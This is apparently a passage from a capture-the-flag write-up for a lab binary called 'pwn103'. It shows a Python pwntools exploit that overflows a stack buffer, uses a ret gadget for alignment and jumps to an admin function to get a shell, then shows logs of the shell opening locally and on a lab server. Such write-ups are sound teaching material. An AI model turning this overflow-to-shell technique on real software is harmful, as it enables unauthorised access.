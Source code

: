 ```python
offset = 40

padding = "A" * offset
shell = elf.functions['admins_only']
movaps = 0x0000000000401016 # 0x0000000000401016: ret;

payload = flat([
    padding,
    movaps,
    shell
])

def send_payload():
    io.recvuntil('Choose the channel:')
    io.sendline('3')
    io.recvuntil('------[pwner]: ')
    io.sendline(payload)

send_payload()


# Got Shell?
io.interactive()
```

Running it locally works

```
└─$ python3 exploit.py   
[+] Starting local process './pwn103.pwn103': pid 47933
[*] Switching to interactive mode
Try harder!!! 💪

👮  Admins only:

Welcome admin 😄
$ ls -al
total 36
drwxr-xr-x 2 mark mark  4096 Feb 14 20:54 .
drwxr-xr-x 5 mark mark  4096 Feb 14 16:40 ..
-rw-r--r-- 1 mark mark  1215 Feb 14 20:54 exploit.py
-rwxr-xr-x 1 mark mark 20800 Feb 14 16:40 pwn103.pwn103
$
```

Now i'll run it on the remote server

```
└─$ python3 exploit.py REMOTE 10.10.46.106 9003
[+] Opening connection to 10.10.46.106 on port 9003: Done
[*] Switching to interactive mode
Try harder!!! 💪
👮  Admins only:

Welcome admin 😄
$ ls -al
total 56
drwx------  2 pwn103 pwn103  4096 Feb  8  2022 .
drwxr-xr-x 12 root   root    4096 Feb  8  2022 ..
lrwxrwxrwx  1 pwn103 pwn103     9 Feb  8  2022 .bash_history -> /dev/null
-rw-r--r--  1 pwn103 pwn103   220 Apr  4  2018 .bash_logout
-rw-r--r--  1 pwn103 pwn103  3771 Apr  4  2018 .bashrc
-rw-r--r--  1 pwn103 pwn103   807 Apr  4  2018 .profile
-rwxrwxrwx  1 pwn103 pwn103    19 Jan 28  2022 flag.txt
-rwxrwxrwx  1 pwn103 pwn103 20800 Jan 28  2022 pwn103
```